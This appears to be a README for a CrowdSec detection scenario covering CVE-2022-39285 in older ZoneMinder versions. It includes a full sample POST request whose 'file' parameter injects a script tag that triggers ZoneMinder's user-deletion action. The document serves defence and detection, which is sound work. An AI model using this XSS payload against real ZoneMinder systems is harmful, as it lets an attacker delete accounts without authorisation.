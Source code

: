 Scenario to detect exploitation attempts of [CVE-2022-39285](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-h6xp-cvwv-q433).
Basically do not allow any POST requests for index.php to have file=[XSS payload]. This is for ZM versions __BEFORE__ 1.36.27, 1.37.24

```
POST /zm/index.php HTTP/1.1
Host: 10.0.10.107
Content-Length: 377
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.0.10.107
Referer: http://10.0.10.107/zm/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: zmSkin=classic; zmCSS=base; zmBandwidth=high; ZMSESSID=rauh5oe3i2uar25eaniipq2gie
Connection: close

__csrf_magic=key:78ee298a4593243b9ac481199d7da468bab4f044,1664675125&view=request&request=log&task=create&level=ERR&message=Trenches%20of%20IT%5Bname%5D=Chrome&browser%5Bversion%5D=101.0.4951.41&browser%5Bplatform%5D=Windows&file=http%3A%2F%2F10.0.10.107%2Fzm%2F&lt;/td&gt;&lt;/tr&gt;&lt;script src='/zm/?view=options%26tab=users%26action=delete%26markUids%5B%5D=6%26deleteBtn=Delete'&lt;/script&gt;&line=70
```

:warning: Crowdsec is not a WAF and, as such, bypass to those signatures are likely :warning:





